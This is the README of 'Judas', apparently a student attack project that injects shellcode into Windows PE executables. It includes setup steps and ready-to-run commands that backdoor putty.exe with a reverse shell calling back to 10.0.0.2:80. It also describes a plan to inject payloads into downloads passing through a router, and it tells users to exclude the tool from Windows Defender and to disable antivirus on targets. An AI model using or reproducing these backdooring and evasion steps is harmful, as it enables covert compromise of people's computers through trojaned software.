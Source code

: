 # Judas

## Background

This is an attack project for COMP 6970: Computer Security at the Fringes.
It's purpose and intent is purely for educational purposes.

The goal was to build a framework that could inject malicious code into PE files on the fly.
An additional step was to hook an open source router firmware so that when an executable is being downloaded to a client's computer the router would automatically inject the malicious code and hand off the new file to the client.

Unfortunately, we were unable to have the router firmware modification working by the due date.

## Setup

First ensure your box is completely up to date.
The instructions that follow assume you are using a Debian based Linux distribution.
The only system that is known not to work with this framework is macOS as for some reason it does not ship with memory map.

```bash
sudo apt update && sudo apt upgrade -y
```

After updating and upgrading the system install the dependencies needed by Judas.
I would recommend installing keystone by building the source. I had issues using Python's Pip.

```bash
pushd
NB_CPU="$(grep -c processor /proc/cpuinfo)"
sudo apt-get install python3-pip git cmake gcc g++ pkg-config libglib2.0-dev libssl-dev -y
cd /tmp
git clone https://github.com/keystone-engine/keystone.git
cd keystone
mkdir build
cd build
sed -i "s/make -j8/make -j${NB_CPU}/g" ../make-share.sh
../make-share.sh
sudo make install
sudo ldconfig
cd ../bindings/python
sudo make install3
popd
```

```bash
pip3 install -r requirements.txt
```

## Execution

To run the tool we recommend running `backdoor.py` as it is treated as the driver for Judas.
Our tool utilizes Python's argparse module to help with command line arguments.
In its current state it can take in a multitiude of different arguments.

## Example

To inject the message box shellcode into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t msg`

To inject the reverse shell shellcode with listening host of 10.0.0.2 and listening port of 80 into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t rev -lH 10.0.0.2 -lP 80`

To run Judas on putty.exe in wizard mode run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -w`

## Option Summary

### Path

The only required parameter is path which is expected to come immediately after the call to backdoor.
This is the path to the file that you wish to inject.

### Listening Port (-lP | --lport)

Port the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening port.

### Listening Host (-lH | --lhost)

Host's IP the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening host.

### Section Size (-sS | --section_size)

Size of the section being injected into the binary.
Defaults to 1024.

### Page Size (-pS | --page_size)

Size of the page being injected into the binary.
Defaults to 1024.

### Section Permissions (-sP | --section_permissions)

Permissions of the section being injected into the binary.
Defaults to 0xE0000000 (READ | EXECUTE).

### Section Name (-sN | --section_name)

Name of the section being injected into the binary.
Defaults to .pwn.

### Payload Type (-t | --type)

Type of the payload being injected.
Current options:
    msg : message box shell script
    rev : reverse shell script

### Wizard Mode (-w | --wizard)

Activates wizard which prompts users for inputs depending on type of payload chosen.

### Verbose Mode (-v | --verbose)

Activates verbose mode

## Windows

If running this script on Windows ensure you exclude this folder from Windows Defender scans.
If you do not Windows Defender will automatically delete the file produced by the script.
Go to `Windows Defender Security Center`, then `Virus & threat protection settings`, and at the bottom there is `Exclusions`.
Add a new folder and put in the path for this repo.
The same goes for when you exploit the Windows system.
In this projects current state it cannot bypass antivirus, so to see it actually work ensure AV is disabled or marked to exclude the directory Judas is executed from.

## Resources

* https://captmeelo.com/exploitdev/osceprep/2018/07/16/backdoor101-part1.html
* https://resources.infosecinstitute.com/back-dooring-pe-files-windows/
* https://r0ttenbeef.github.io/backdooring-pe-file/
* https://axcheron.github.io/code-injection-with-python/
* https://docs.microsoft.com/en-us/windows/win32/debug/pe-format?redirectedfrom=MSDN
* https://resources.infosecinstitute.com/2-malware-researchers-handbook-demystifying-pe-file/

## Dependencies

* Assembler
  * https://github.com/keystone-engine/keystone
* PE Parser
  * https://github.com/erocarrera/pefile
* Network Interface
  * https://github.com/al45tair/netifaces
